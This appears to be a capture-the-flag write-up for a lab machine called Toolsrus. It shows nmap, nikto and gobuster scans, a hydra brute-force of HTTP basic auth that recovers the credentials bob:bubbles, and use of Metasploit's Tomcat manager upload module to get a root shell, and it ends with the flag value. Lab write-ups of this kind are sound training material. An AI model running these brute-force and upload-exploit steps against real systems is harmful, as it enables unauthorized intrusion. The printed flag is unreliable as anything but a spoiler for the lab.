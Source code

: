 > Toolsrus

# Nmap/Rutscan

nmap -sC -sV -T4 -Pn -A -vvv $IP -oN nmap/initial

```
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
```

# Nikto - Port 80

nikto -h http://$IP

```
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: a8, size: 583d315d43a92, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8041 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-04-30 03:10:33 (GMT-4) (1642 seconds)
```

# Nikto - Port 1234

nikto -h http://$IP:1234

```
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ 8195 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2021-04-30 03:30:57 (GMT-4) (1843 seconds)
```

# Gobuster - Port 80

gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,js,sql,bak,bin,cgi,tar,zip -o gobuster/initial

```
/guidelines           (Status: 301) [Size: 317] [--> http://10.10.119.90/guidelines/]
/protected            (Status: 401) [Size: 459] => This page has authentication
```

# Gobuster - Port 1234

gobuster dir -u http://$IP:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,js,sql,bak,bin,cgi,tar,zip -o gobuster/port_1234

```
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Accessing `http://$IP/guidelines` we got a message `Hey bob, did you update that TomCat server?`. Since we got an username `bob` and a HTTP basic auth directory `/protected` we can try to crack passwords using hydra.

# Hydra

hydra -l bob -P /usr/share/wordlists/rockyou.txt -f $IP http-get /protected

```
[80][http-get] host: 10.10.119.90   login: bob   password: bubbles
```

And we can access `/protected` now but it says `This protected page has now moved to a different port.`

Let's try using the same credentials on port 1234 and let's scan /managaer/html using nikto.

# Nikto

nikto -h http://$IP:1234/manager/html bob:bubbles | tee nikto_manager.log


```
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-3092: /manager/html/localstart.asp: This may be interesting...
+ OSVDB-3233: /manager/html/manager/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/jk-manager/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/jk-status/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/admin/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/host-manager/manager-howto.html: Tomcat documentation found.
```

# Metasploit

Exploit name : exploit(multi/http/tomcat_mgr_upload)

1. set RHOSTS 10.10.119.90
2. set RPORT 1234
3. set HttpUsername bob
4. set HttpPassword bubbles

We have as shell as root!!

# Flag.txt

```
ff1fc4a81affcc7688cf89ae7dc6e0e1
```